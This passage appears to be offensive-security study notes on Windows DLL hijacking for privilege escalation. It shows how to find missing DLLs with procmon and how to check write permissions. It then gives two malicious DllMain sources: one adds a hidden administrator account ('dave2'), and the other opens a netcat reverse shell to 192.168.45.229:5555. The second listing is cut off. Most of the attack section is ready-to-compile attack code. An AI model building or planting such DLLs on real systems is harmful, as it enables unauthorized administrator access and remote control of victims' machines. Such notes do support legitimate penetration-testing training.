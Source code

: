 use procmon from sysinternals to check for missing dlls (“NAME NOT FOUND”)

#### Make sure you have enough rights to write your dll to this directory

```powershell
PS C:/path/to_inject/dll>: icacls .
risus-PC\risusUser:(I)(OI)(CI)(F)
```

#### Build malicious DLL

The provided comments from Microsoft state that _DLL\_PROCESS\_ATTACH_ is used when a process is loading the DLL. Since the target service binary process in our example tries to load the DLL, this is the case we need to add our code to.

```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

revshell

```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
            i = system ("C:\\Services\\nc.exe 192.168.45.229 5555 -e cmd");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
```